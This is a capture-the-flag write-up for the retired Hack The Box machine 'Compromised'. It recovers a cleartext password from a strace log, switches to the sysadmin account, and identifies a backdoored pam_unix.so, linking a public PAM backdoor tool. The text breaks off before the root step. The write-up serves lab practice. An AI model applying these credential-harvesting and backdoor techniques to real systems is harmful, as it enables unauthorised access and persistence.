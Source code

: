 * there is a strace log file in the mysql directory -

  **[Strace](https://strace.io/):** strace is a powerful command line tool for debugging and trouble shooting programs in Unix-like operating systems such as Linux. It captures and records all system calls made by a process and the signals received by the process.

      mysql@compromised:~$ ls -la strace-log.dat
      -r--r----- 1 root mysql 787180 May 13  2020 strace-log.dat

* it this log file i found `sysadmin` user password -

      mysql@compromised:~$ cat strace-log.dat | grep password
      22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0

### creds
`sysadmin:3*NLJE32I$Fe`


### USER:sysadmin shell

* su to user sysadmin

      mysql@compromised:~$ su - sysadmin
      Password: 3*NLJE32I$Fe
      sysadmin@compromised:~$ cat user.txt
      6353ccb6************************


# Privesc Enumeration

* while searching for most recently modified files i found a Shared Object `pam_unix.so`

      sysadmin@compromised:~$ dpkg -V 2>/dev/null
      ??5??????   /lib/x86_64-linux-gnu/security/pam_unix.so

      sysadmin@compromised:~$ ls -lt /lib/x86_64-linux-gnu/security/pam_unix.so
      -rw-r--r-- 1 root root 198440 Aug 31 03:25 /lib/x86_64-linux-gnu/security/pam_unix.so

  * this [file](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/compromised/dump/pam_unix.so) created/modified(Aug 31) just before the box release(12 September 2020).

* **[pam_unix](https://linux.die.net/man/8/pam_unix):** It uses standard calls from the system's libraries to retrieve and set account information as well as authentication. Usually this is obtained from the /etc/passwd and the /etc/shadow file as well if shadow is enabled.

* one interesting thing i found while searching about this file is that this file also used in persistence compromised attack where attacker modified the file and backdoor it with a master password to access root without any interruption and i also found a script for this at  [zephrax@github](https://github.com/zephrax/linux-pam-backdoor)


# Root Privesc

* Download file in my machine

